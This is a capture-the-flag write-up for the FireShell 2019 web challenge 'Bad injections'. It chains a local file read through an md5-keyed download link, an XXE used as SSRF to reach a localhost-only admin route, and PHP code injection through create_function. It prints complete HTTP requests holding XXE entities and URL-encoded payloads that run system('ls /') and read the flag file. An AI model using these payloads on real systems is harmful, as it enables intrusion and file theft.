 ```yaml
---
layout: post
title: Bad injections
category: FireShell 2019
---
```


Hello guys , i would like to share with you my solution for this web task 

So this task's solution contains 3 parts (LFI->XXE->RCE) each part will allow us to move to the next stage until we get the FLAG

<p align="center"> <img src="https://user-images.githubusercontent.com/7364615/51808143-62d0d900-2290-11e9-8aad-448c7c976a17.png"></p>

By accessing to the task url, we can see a menu with some actions

<p align="center"> <img src="https://user-images.githubusercontent.com/7364615/51808175-b7745400-2290-11e9-9b71-3af24350703d.png"></p>

When we look at the html source codem we can notice a link used to download this files

<p align="center"> <img src="https://user-images.githubusercontent.com/7364615/51808189-e8548900-2290-11e9-9368-dd439db8a359.png"></p>

So each file can be downloaded using this url schema

http://68.183.31.62:94/download?file=files/1.jpg&hash=7e2becd243552b441738ebc6f2d84297

```
1-file : will be the file location  
2-hash : for now its md5 hash (we do not know how this hash generated )
```

By doing some recon stuff in order to get more informations about this task, I found out that nothing is important for us (except the download link)

I tried to exploit it using hash length attack but no chance (not part of this challenge)

Then I noticed this:

```
$_GET('hash') == md5($_GET('file'))
```

which means for now we can load any file we want (if we know the location of course) **PART1**

As there is 2 files on the web app , we tried to check the second one 

http://68.183.31.62:94/download?file=files/test.txt&hash=293d05cb2ced82858519bdec71a0354b

Download this file we got this 

<p align="center"> <img src="https://user-images.githubusercontent.com/7364615/51808272-15ee0200-2292-11e9-9956-e62fa534ef81.png"></p>

Ok looks like there is something for us here

`
<b>Notice</b>:  Undefined variable: type in <b>/app/Controllers/Download.php</b> on line <b>21</b><br />
`

Using the first part we can read this file

![download_lfi](https://user-images.githubusercontent.com/7364615/51808298-67968c80-2292-11e9-9b30-8ebcdd05b85e.png)

Here we know its the file used to download in part1

By digging more I managed read more files, the content of index.php is as follow:

![index](https://user-images.githubusercontent.com/7364615/51808648-daa20200-2296-11e9-977c-4ac60cac2cb9.png)

We know for now that we have many other folders (Controllers / Views / Classes / files)

But also there is a file named “Routes.php” referenced in index.php that can help us to move on

By reading this file we found all routes and also what we need to do next (stage 2)

![routes_xxe_rce_admin](https://user-images.githubusercontent.com/7364615/51808356-1d61db00-2293-11e9-816b-70ff45f0f558.png)

The two important parts (**/custom** & **/admi**n), lets read them (Custom.php & Admin.php )

![custom_xxe](https://user-images.githubusercontent.com/7364615/51808369-4bdfb600-2293-11e9-95d0-f919afd1edd1.png)

from the first look we confirm we have XXE on **/custom** route

![xxe](https://user-images.githubusercontent.com/7364615/51808420-cdcfdf00-2293-11e9-8656-8d9831440769.png)


OK here we can said why we don't migrate from XXE->RCE , but no we can't because wrappers like "expect" disabled on the server side so we can only read files or exploit SSRF to request internal app **PART2**

OK! lets move to Admin.php code 

![admin_rce](https://user-images.githubusercontent.com/7364615/51808427-e4763600-2293-11e9-936b-01aec33e7c84.png)

Ugly code, but we need to understand it 
So here this code :

```
1-wait two arguments ($url & $order) ==> $url should be xml file
2-Read xml file (RSS) and try to load it on $data array
3-Then usort this array using new function (creeat_function) witch use our $order argument to compare two rows
4-Print back custom html code 
```

By reading this code we confirm we have RCE (create_function can be used to injection php code ) **PART3**

because create_function is an eval call which does the following :

```
function create_function($args, $code) {
  eval("
    function lambda_1 ($args) { $code }
  ");
  return 'lambda_1';
}
```

But wait !! we forget the routes part ! 

```
Route::set('admin',function(){
  if(!isset($_REQUEST['rss']) && !isset($_REQUES['order'])){
    Admin::createView('Admin');
  }else{
    if($_SERVER['REMOTE_ADDR'] == '127.0.0.1' || $_SERVER['REMOTE_ADDR'] == '::1'){
      Admin::sort($_REQUEST['rss'],$_REQUEST['order']);
    }else{
     echo ";(";
    }
  }
});
```

We can only call sort function (where we have create_function ) only if we request /admin from local 

Yes we can :D , we already have XXE which means we can make this possible by exploit SSRF vuln and load /admin route from there :)

We prepare simple rss file to be parsed as **/admin** route request 2 arguments on of them should be XML file

```
<?xml version="1.0" encoding="UTF-8" ?>
<rss>
<channel>
  <item>
    <link>/xml/xml_rss.asp</link>
  </item>
  <item>
    <link>/xml</link>
  </item>
</channel>
</rss>
```

we can simply host this content on https://pastebin.com/ 

Then next step we just need to prepare the XXE payload 

```
link,$b->link); } system("ls /"); //
```

```
POST /custom HTTP/1.1
Host: 68.183.31.62:94
Content-Type: application/x-www-form-urlencoded
Content-Length: 412

<!DOCTYPE foo [
<!ELEMENT foo ANY><!ENTITY out SYSTEM "php://filter/convert.base64-encode/resource=http://127.0.0.1/admin?rss=https://pastebin.com/*****&order=link%2C%24b-%3Elink%29%3B%20%7D%20system%28%22ls%20%2F%22%29%3B%20%2F%2F">]>
<root><name>&out;</name></root>
```

Using this one we get that there is flag file **/da0f72d5d79169971b62a479c34198e7** , so we change our payload . 

Final payload for the code injection 

```
link,$b->link); } system("cat /da0f72d5d79169971b62a479c34198e7"); //
```

```
POST /custom HTTP/1.1
Host: 68.183.31.62:94
Content-Type: application/x-www-form-urlencoded
Content-Length: 412

<!DOCTYPE foo [
<!ELEMENT foo ANY><!ENTITY out SYSTEM "php://filter/convert.base64-encode/resource=http://127.0.0.1/admin?rss=https://pastebin.com/*****&order=link%2C%24b%3Elink%29%3B%20%7D%20system%28%22cat%20%2Fda0f72d5d79169971b62a479c34198e7%22%29%3B%20%2F%2F">]>
<root><name>&out;</name></root>
```

And Yes we got our FLAG :

```
f#{1_d0nt_kn0w_wh4t_i4m_d01ng}
```
